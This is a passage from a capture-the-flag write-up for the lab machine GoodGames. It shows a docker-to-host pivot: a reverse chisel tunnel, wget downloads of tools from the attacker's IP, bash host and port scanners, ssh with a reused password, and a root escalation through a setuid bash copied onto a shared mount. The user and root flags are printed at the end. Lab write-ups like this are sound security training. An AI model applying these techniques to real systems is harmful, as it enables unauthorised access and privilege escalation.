In order to escalate privileges we need to be aware that we are into a docker, this means that, even if we are root, we still need to access the real machine, with IP `10.10.11.130`. Looking after the user flag we found it at `/home/augustus`, but if we check the `/etc/passwd` file:
```bash
root@3a453ab39d3d:~# cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
```
We see that there is no user `augustus`, then... who is the owner of `/home/augustus`:
root@3a453ab39d3d:/home/augustus# ls -lad /home/augustus
drwxr-xr-x 2 1000 1000 4096 Dec  2  2021 /home/augustus
```
A user with UID `1000`, but there is no user with that UID in this docker:
```bash
root@3a453ab39d3d:/home/augustus# cat /etc/passwd | grep "1000"
root@3a453ab39d3d:/home/augustus# 
```
So we can guess that the folder `/home/augustus` is mounted from the host machine, to check it:
```bash
root@3a453ab39d3d:/home/augustus# mount | grep home
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```
We were right. Since the only open port was p80, we cannot use ssh to try to achieve connection to the host machine. So the best we can do is use `chisel` to perform an nmap on the host machine through the docker:
```bash
# My machine before connection
❯ ./chisel server --port 4444 --reverse
2022/06/04 19:51:12 server: Reverse tunnelling enabled
2022/06/04 19:51:12 server: Fingerprint XYG9c21EJmNbbwIuDG3ISRdnxrWZCmsjKJ4COByT/bE=
2022/06/04 19:51:12 server: Listening on http://0.0.0.0:4444
# Docker
root@3a453ab39d3d:/tmp# wget 10.10.16.2:4444/chisel
root@3a453ab39d3d:/tmp# chmod +x chisel
root@3a453ab39d3d:/tmp# ./chisel client 10.10.16.2:4444 R:socks
2022/06/04 17:51:43 client: Connecting to ws://10.10.16.2:4444
2022/06/04 17:51:43 client: Connected (Latency 35.712797ms)
# My machine after connection
2022/06/04 19:51:43 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
Now that we have configured a chisel tunnel, we can perform a nmap scan via proxychains. But first, we need to know what local IP is assigned to the host machine in the docker's localhost, to do so we will use the following utility:
```bash
root@3a453ab39d3d:/tmp# wget 10.10.16.2:4444/hostDiscovery
root@3a453ab39d3d:/tmp# cat hostDiscovery 
#!/bin/bash

if [ $1 ]; then
  base_ip=$1
  echo -e "\n[*] Anaylizing active hosts in $base_ip\n"
  for host in `seq 1 254`;do # Host 1 is router and host 255 is broadcast
    host_ip="$(echo $base_ip | awk -F'.' 'OFS="." {print $1,$2,$3}').$host"
    timeout 1 bash -c "ping -c 1 $host_ip" >/dev/null && echo -e "\t[+] $host_ip - ACTIVE" &
  done
  echo -e "\n[*] Exiting..."
else
  echo "[!] Usage: $0 <base-ip>"  
fi
root@3a453ab39d3d:/tmp# chmod +x hostDiscovery
root@3a453ab39d3d:/tmp# hostname -I
172.19.0.2 
root@3a453ab39d3d:/tmp# ./hostDiscovery 172.19.0.2

[*] Anaylizing active hosts in 172.19.0.2

	[+] 172.19.0.1 - ACTIVE
	[+] 172.19.0.2 - ACTIVE

[*] Exiting...
```
So we can guess that the IP for the host machine is `172.19.0.1`. Now, we can perform a nmap scan:
```bash
sudo proxychains nmap -p- -sS --min-rate 5000 -n -Pn 172.19.0.1 -v -oG Enum/allPorts_chisel
❯ extractPorts Enum/allPorts_chisel

[*] Extracting information...

	[*] IP Address:  172.19.0.1 

	[*] Open ports:   


[*] Ports have been copied to clipboard...
```
So the nmap scan didn't even find the port 80, that is quite strange so we decided to perform a manual port scan from within the docker:
```bash
root@3a453ab39d3d:/tmp# wget 10.10.16.2:4444/portScan
root@3a453ab39d3d:/tmp# chmod +x portScan
root@3a453ab39d3d:/tmp# cat portScan 
#!/bin/bash

if [ $1 ];then
  ip_addr=$1
  echo -e "\n[*] Testing all open ports on $ip_addr\n"
  for port in `seq 1 65535`; do
    timeout 1 bash -c "echo '' > /dev/tcp/$ip_addr/$port" 2>/dev/null && echo -e "\t[+] Port $port - open" &
  done
  echo -e "\n[*] Tested 65535 Ports"
else
  echo -e "Usage: $0 <ip-address>\n"  
  exit 1
fi
root@3a453ab39d3d:/tmp# ./portScan 172.19.0.1

[*] Testing all open ports on 172.19.0.1

	[+] Port 80 - open
	[+] Port 22 - open
^C
```
We found out that the port 22 is open for the machine's localhost. Trying password reuse, let's connect with credentials: `augustus:superadministrator`:
```bash
root@3a453ab39d3d:/tmp# ssh augustus@172.19.0.1
root@3a453ab39d3d:/tmp# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: # superadministrator
augustus@GoodGames:~$ whoami
augustus
augustus@GoodGames:~$ hostname -I
10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:feb9:8b15 
```
We successfully pivoted to the host machine. Now, we are able to perform the privesc.

### Obtaining root shell
First thing we need to try:
```bash
augustus@GoodGames:~$ sudo -l
-bash: sudo: command not found
augustus@GoodGames:~$ cat /etc/sudoers
cat: /etc/sudoers: No such file or directory
```
Meaning sudo is not installed in this machine. Let's try enumerating the suid permissions:
```bash
augustus@GoodGames:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/su
```
Nothing of use, we can run linpeas.sh to enumerate vulnerabilities:
```bash
augustus@GoodGames:~$ wget 10.10.16.2:4444/linpeas.sh
augustus@GoodGames:~$ chmod +x linpeas.sh
augustus@GoodGames:~$ ./linpeas.sh
```
Nothing of use here. But remembering how the folder `/home/augustus/` is mounted on the docker, we could use the `root privileges` we have on the docker to try to modify `/bin/bash` to have the `suid` pemrmission:
```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/home/augustus# chown root bash
root@3a453ab39d3d:/home/augustus# chmod +s bash
root@3a453ab39d3d:/home/augustus# ls -la bash
-rwsr-sr-x 1 root 1000 1234376 Jun  4 19:04 bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1\'s password: # superadministrator
augustus@GoodGames:~$ ls -la bash 
-rwsr-sr-x 1 root augustus 1234376 Jun  4 20:04 bash
augustus@GoodGames:~$ ./bash -p
bash-5.1# whoami
root
bash-5.1# hostname -I
10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:feb9:8b15
```
We obtained a `root shell` on the host machine.

## CVE
No CVEs were used to pentest this machine.

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 4ac5a85999daca8f762266f4f2d4b11b | No | 04-06-2022|
| Root | b65f61ac3abec2e9416991f8cb91119f | No | 04-06-2022|

## References
